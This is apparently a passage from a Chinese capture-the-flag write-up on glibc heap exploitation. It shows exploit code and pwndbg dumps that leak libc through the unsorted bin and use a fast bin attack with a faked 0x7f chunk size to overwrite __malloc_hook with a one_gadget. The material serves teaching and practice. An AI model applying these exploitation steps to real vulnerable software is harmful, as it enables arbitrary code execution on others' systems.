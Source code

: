 解答：

1. 把 `e` 的 `chunk_size` 恢复即可。
2. 释放 `e` 前再多申请一个 small chunk 使得 `e` 不与 top chunk 相邻。
3. `e` 被释放后进入 unsorted bin，所以其 `fd` 与 `bk` 都指向 unsorted bin 的链表头，注意其地址到 libc 基址的偏移是固定的 `0x3c4b78`。

```python
# e->chunk_size = 0x91
payload = flat([0,0,0,0x91])
fill(3, payload)
alloc(0x80) # f5
free(4) # e, e->fd = unsorted_head

base = u64(dump(2)[:8])-0x3c4b78
```

最后的 `dump(2)` 就是打印索引为 `2` 的 chunk，也就是 `e`，从而得到 `e` 的 `fd` 和 `bk`。

之后，再次使用 fast bin attack 将 libc 中函数，例如 `__malloc_hook` 放入 fast bin，然后用 `malloc` 返回给我们，就可以实现类似 GOT 劫持的效果。`__malloc_hook` 只要非空，就会在 `malloc` 时被调用，我们让它指向 `one_gadget` 找到的一个 gadget 即可，比如可以用距离 libc 基址 0x4526a 的 gadget。

但是同样的，我们需要绕过上面的安全检查。幸运的是，该检查对于对齐没有任何要求。通过 gdb 调试我们发现在 `__malloc_hook` 附近的 `_IO_wide_data_0+304` 位置其高位字节为 `7f` 而低位字节含有连续的 `00`，因此可以通过增加一些偏移获得 `0x7f` 这个数值作为 `chunk_size`，恰好能通过检查。

如下：

```
pwndbg> x/32xg (long long)(&main_arena)-0x40
0x7f16d95deae0 <_IO_wide_data_0+288>:    0x0000000000000000    0x0000000000000000
0x7f16d95deaf0 <_IO_wide_data_0+304>:    0x00007f16d95dd260    0x0000000000000000
0x7f16d95deb00 <__memalign_hook>:    0x00007f16d929fe20    0x00007f16d929fa00
0x7f16d95deb10 <__malloc_hook>:    0x0000000000000000    0x0000000000000000
```

我们加 13 字节偏移（循环右移），成功伪造 `chunk_size`：

```
pwndbg> x/32xg (long long)(&main_arena)-0x40+0xd
0x7f16d95deaed <_IO_wide_data_0+301>:    0x16d95dd260000000    0x000000000000007f
0x7f16d95deafd:    0x16d929fe20000000    0x16d929fa0000007f
0x7f16d95deb0d <__realloc_hook+5>:    0x000000000000007f    0x0000000000000000
0x7f16d95deb1d:    0x0000000000000000    0x0000000000000000
```

`0x7f` 对应的 `malloc` 请求大小大约是 `0x60`。现在，freelist 顶部是 `e`，于是 `alloc(0x60)` 就会分配总大小为 `0x71`、起点与 `e` 相同、且索引为 `4` 的 chunk `g`，这时再 `free` 掉 `g` 就会使得 `g` 位于 freelist 顶部。

```python
alloc(0x60) # g4
free(4) # g
```

接下来修改索引为 `2` 的 chunk 的 `fd`（实际就是为了修改 `e` 或者说 `g` 的 `fd`）指向 `_IO_wide_data_0+301` 地址，然后第一次 `Allocate` 得到 `g` 位于索引 `5`，第二次 `Allocate` 得到指向 `_IO_wide_data_0+301` 的指针，位于索引 `6`。

```python
# g->fd = _IO()
payload = p64(base+0x3c4aed)
fill(2, payload)

alloc(0x60) # g5
alloc(0x60) # _IO()6
```
